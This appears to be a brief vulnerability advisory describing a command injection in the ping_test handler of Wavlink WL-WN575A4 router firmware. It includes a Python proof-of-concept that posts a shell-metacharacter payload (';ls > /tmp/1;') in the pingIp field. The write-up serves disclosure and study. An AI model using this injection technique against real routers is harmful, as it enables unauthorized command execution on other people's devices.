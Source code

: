 # command injection

## WAVLINK_WL_WN575A4

version: 20220801

## Description:

There is a command injection in adm.cgi/ping_test

## Source:

you may download it from : https://www.wavlink.com/zh_cn/firmware/details/a3d6df692e.html

## Analyse:


![](5.png)

get value from pingIp, concate and call system, cause command injection



## POC
```
url = "http://192.168.0.1/cgi-bin/set_sys_adm.cgi"
payload = ';ls > /tmp/1;' + '\n'

r = requests.post(url, data={ 'page=sysAdm&pingIp=' + payload})
``` 

